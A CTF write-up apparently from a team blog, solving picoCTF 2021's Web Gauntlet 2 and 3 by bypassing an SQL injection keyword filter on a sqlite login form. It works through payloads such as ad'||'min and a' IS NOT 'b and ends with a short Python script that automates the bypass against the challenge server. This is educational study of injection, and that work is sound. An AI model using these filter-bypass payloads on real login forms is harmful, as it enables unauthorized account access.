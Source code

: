 ```yaml
---
layout: post
title:  "Web Gauntlet - Web"
date:   2021-03-30 12:28:05 +0100
categories: writeups
---
```


```
Challenge: Web Gauntlet 2 & 3
Author: Shotokhan
Description: SQL injection filter bypass
CTF: picoCTF 2021
Category: Web
```

# Writeup
We have a login form, and we need to perform login as admin. <br>
<br> ![welcome_page](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_welcome.jpg?raw=true) <br>
The challenge also gives us a /filter.php endpoint to look for filtered expressions: <br>
```Filters: or and true false union like = > < ; -- /* */ admin``` <br>
Filters are the same for both challenge 2nd and 3rd, but in the 3rd one we have a limit of 25 characters. <br>
From the filter list, it's clearly a SQL injection challenge. <br>
Head to Burp Suite, from a few tests we can see that both username and admin are vulnerable to the injection, and filters apply to both of them. <br>
<br> ![filtered](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_filtered.jpg?raw=true) <br>
Note that "password" is filtered because "or" is filtered. <br>
We can also see that input length is "combined input length", which of course is much more limiting. <br>
<br> ![input_too_long](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_input_too_long.jpg?raw=true) <br>
Although it wasn't specified in 2nd challenge description, we can check that this one has a combined input length limit, too; the limit is of 35 characters. <br>
From the hints, we see that the underlying DB is sqlite; we can also guess it from filters, because there are the filters for sqlite's comments. <br>
At this point, the first idea is to bypass the filter on admin using a string concatenation, which is done with the || operator in sqlite. <br>
Therefore, as user parameter we pass: ```ad'||'min``` <br>
To avoid getting filtered, we send "pass" as password, and we see that the server leaks the SQL query being made in backend: <br>
<br> ![query_leakage](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_not_admin_query_leak.jpg?raw=true) <br>
Now that we know the query, we can open a sqlite3 shell with an in-memory database to do some offline tests. <br>
The first thing to do is to create a table. <br>
Since the query is: ```SELECT username, password FROM users WHERE username='username' AND password='pass';``` <br>
We create a table like that: <br>
```CREATE table users (username string, password string);``` <br>
Then, we insert a row with username "admin" and a random password: <br>
```INSERT into users (username,password) values ('admin', 'asndaisndiasdn');``` <br>
At this point we're ready to do offline tests. <br>
Since "union" operator is filtered, we look for other set operators in sqlite documentation, and we find "except": <br>
We use ```ad'||'min' EXCEPT SELECT 0,0 FROM users WHERE '1``` as user and a blank password, building the following query: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' EXCEPT SELECT 0,0 FROM users WHERE '1' AND password='';``` <br>
It works locally, but it has too many characters for both challenges. <br>
What are we doing wrong here is: we can inject on both parameters, but we're trying to bypass the filter injecting on username only. <br>
We can't use operators like OR and AND on password because they're filtered, so let's try to use concatenation again. <br>
We know that the right password is stored in "password" column, and if we did the following: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' AND password=password;``` <br>
It would pass for sure. <br>
To achieve that, we need string concatenation, so we use ```ad'||'min``` as username and ```'||password||'``` as password, building: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' AND password=''||password||'';``` <br>
Again, it works locally but we're very unlucky because the filter on OR also filters passwORd. <br>
At this point, what we can do is to look for some operator which has precedence over AND but that is not filtered. <br>
Operators "IS" and "IS NOT" are good candidates. <br>
Well, we use the same username, and as password we use ```a' IS NOT 'b```, building: <br>
```SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' IS NOT 'b';``` <br>
It works both locally and remotely, with both challenges (we solved both challenges with the same payload!) <br>
<br> ![congrats_you_won](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_congrats_you_won.jpg?raw=true) <br>
The last thing to do to get the flag is to visit /filter.php within the same session: <br>
<br> ![flag](https://github.com/pwnthenope/pwnthenope.github.io/blob/main/static/post_images/web_gauntlet_flag.jpg?raw=true) <br>
We thought it was useful to also add a little script to the writeup: <br>
```
import requests


if __name__ == "__main__":
    base_url = "http://mercury.picoctf.net:32946/"
    data = {"user": "ad'||'min", "pass": "a' IS NOT 'b"}
    session = requests.Session()
    r = session.post(base_url + "index.php", data=data)
    if "Congrats" in r.text:
        r = session.get(base_url + "filter.php")
        print(r.text)
```
